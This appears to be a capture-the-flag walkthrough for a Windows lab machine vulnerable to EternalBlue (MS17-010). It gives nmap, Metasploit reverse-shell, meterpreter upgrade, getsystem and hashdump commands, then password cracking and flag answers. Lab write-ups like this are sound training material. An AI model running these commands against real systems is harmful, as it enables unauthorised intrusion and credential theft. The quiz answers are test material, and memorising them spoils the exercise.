 ## Enum: Scanning with nmap


### Task 1: Recon
The first request is to scan the machine. To do this we are going to use nmap to perform service version detection with the -sV option. This is going to probe the open ports. The command below will allow you to up your verbosity with `-vv`. 
```
nmap -sV -vv --script vuln *target*
```

![image](https://github.com/user-attachments/assets/f454e18e-f5d4-464b-9e43-41e31f399eed)

The output shows that:
- MSRPC (Microsoft Remote Procedure Call) is open on port 135
- netbios-ssn is open on port 139
- microsoft-ds is open on port 445

>**Question:** How many ports are open with a port number under 1000
>
>**Answer:** 3


>**Question:** What is the machine vulnerable to?
>
>**Answer:** ms17-010
There are a few vulnerabilities listed on this machine, but this is the answer THM is looking for. This is the EternalBlue vulnerability (CVE-2017-0143 through CVE-2017-0148) which allows for RCE. This vulnerability extends beyond MSFT Windows to any service that uses the Microsoft-SMBv1 server protocol. 

![image](https://github.com/user-attachments/assets/c48d686f-f003-4a5b-a511-b73145ee04e0)
This vulnerability allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." All those susceptible to this vulnerability are listed in the CVE:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
This vulnerability is rated as Critical by Microsoft, and a patch was published to remedy this back in 2017!
https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/


## Exploit: msfconsole
### Task 2: Gain Access

Run metasploit
```
msfconsole
```
Search for the exploit available to ms17_010
![image](https://github.com/user-attachments/assets/d1c9f9a0-a128-475c-b51c-97ba37a994a7)

>**Question:** find the exploitation code
>
>**Answer:** exploit/windows/smb/ms17_010_eternalblue

Select the exploit

```
use 0
```

Show options

```
show options
```

>**Question:** What value do you need to set?
>
>**Answer:** RHOSTS

![image](https://github.com/user-attachments/assets/df7a2aa9-9820-4da4-be9d-1d43e354763c)
![image](https://github.com/user-attachments/assets/f9066c2a-c8f5-4035-8f1c-9a4c867bf0bb)

```
set payload windows/x64/shell/reverse_tcp
```
Run the exploit

```
run
```

## Post-exploit: Gain Access
### Task 3: Escalate

We are now SYSTEM!

![image](https://github.com/user-attachments/assets/c717fb13-762f-4b65-96a1-f126e200c3fc)


Set the system shell to background (ctrl+z)
```
search shell_to_meterpreter
```

>**Question:** What is the name of the post module we will use?
>
>**Answer:** post/multi/manage/shell_to_meterpreter



![image](https://github.com/user-attachments/assets/d60d8397-52c8-4eb3-8ed6-f35d159dbf65)

Use the shell_to_meterpreter as seen above

```
use 0
```

list the sessions
```
sessions -l
```
![image](https://github.com/user-attachments/assets/331948b1-3689-405c-b6c2-8c072a327817)


>**Question:** What option are we required to change?
>
>**Answer:** SESSION

```
set session 1
```

```
run
```
Note: Wait forever for the run to complete, it should take time to process once it reads *'stopping exploit/multi/handler'*

![image](https://github.com/user-attachments/assets/063fea0b-8481-4736-a775-84734993deac)

List the sessions again, and select the meterpreter

```
sessions -i 3
```


```
getsystem
```
Confirm that you are running as system

Run hashdump cmd to get the non-default user
```
hashdump
```
### Task 4: Cracking

![image](https://github.com/user-attachments/assets/c385faec-8c9b-4415-8081-94b8a0570c70)

>**Question:** What is the name of the non-default user?
>
>**Answer:** jon


Running john the ripper, crack the hashed password


![image](https://github.com/user-attachments/assets/47e25664-d720-458b-b3ad-711bb1a338fa)

**Flag 1 at system root:**

![image](https://github.com/user-attachments/assets/1d4e82db-d442-4998-815e-7311fa47b6d0)

**Flag 2 at system32\config:**

![image](https://github.com/user-attachments/assets/5ffb90d4-957f-40a5-95f8-483c28affffa)

**Flag 3 at jon's docs:**

![image](https://github.com/user-attachments/assets/716c6eb3-124d-463b-bbc6-64967bfcd7e5)

## Complete!

![image](https://github.com/user-attachments/assets/520d8364-f9ab-4ee1-9744-b9e849e87986)



